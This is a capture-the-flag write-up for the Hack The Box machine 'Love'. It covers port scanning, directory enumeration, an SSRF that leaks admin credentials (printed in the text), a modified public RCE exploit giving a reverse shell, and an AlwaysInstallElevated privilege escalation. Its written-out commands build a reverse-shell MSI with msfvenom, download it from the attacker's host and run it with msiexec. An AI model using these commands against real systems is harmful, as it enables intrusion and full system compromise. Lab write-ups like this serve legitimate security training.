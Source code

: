 # [Love](https://app.hackthebox.com/machines/love)

```bash
nmap -p- --min-rate 10000  10.10.10.239 -Pn  
```

![Alt text](img/image.png)


As I know open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p80,135,139,443,445,3306,5000 10.10.10.239 -Pn 
```
![Alt text](img/image-2.png)


From port (443), https, we can see **'staging.love.htb'**

Let's add this ip address into '/etc/hosts' file.

![Alt text](img/image-1.png)


Let's do directory enumeration for 'staging.love.htb'

```bash
gobuster dir -u http://staging.love.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40 -x php
```

![Alt text](img/image-3.png)


Let's browse the page.


![Alt text](img/image-4.png)


Let's check functionality of this page.

![Alt text](img/image-5.png)

![Alt text](img/image-6.png)


We can add localhost also to this page, I add port 5000 as because from nmap result I see that on port 5000 is HTTP service running.

![Alt text](img/image-7.png)

![Alt text](img/image-8.png)

I grab admin credentials of 'VoteAdmin' service which is running for port 80.

admin: @LoveIsInTheAir!!!! 


I also did directory enumeration for 'love.htb'

```bash
gobuster dir -u http://love.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![Alt text](img/image-9.png)


Now we can see '/admin' page with credentials which I took before.

![Alt text](img/image-10.png)


Let's search publicly known RCE for 'VotingSystem'.

![Alt text](img/image-11.png)


![Alt text](img/image-12.png)


I changed source code of exploit.

![Alt text](img/image-13.png)


I got reverse shell.

![Alt text](img/image-14.png)

user.txt

![Alt text](img/image-15.png)


For enumeration of Windows machine, I just check 'AlwaysInstallElevated' section via below command.


```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![Alt text](img/image-16.png)


While this option is set true (value=1)

Let's generate `.msi` file via `msfvenom` tool.

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1338 -f msi -o dr4ks.msi
```

![Alt text](img/image-17.png)

Let's open HTTP server and upload malicious reverse shell file into machine.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```

![Alt text](img/image-18.png)

```bash
powershell wget http://10.10.14.9:8080/dr4ks.msi -outfile dr4ks.msi
```

![Alt text](img/image-19.png)


Now, execute this maliciois `.msi` file.

```bash
msiexec /quiet /qn /i dr4ks.msi
```


I got administrative shell.

![Alt text](img/image-20.png)


root.txt

![Alt text](img/image-21.png)
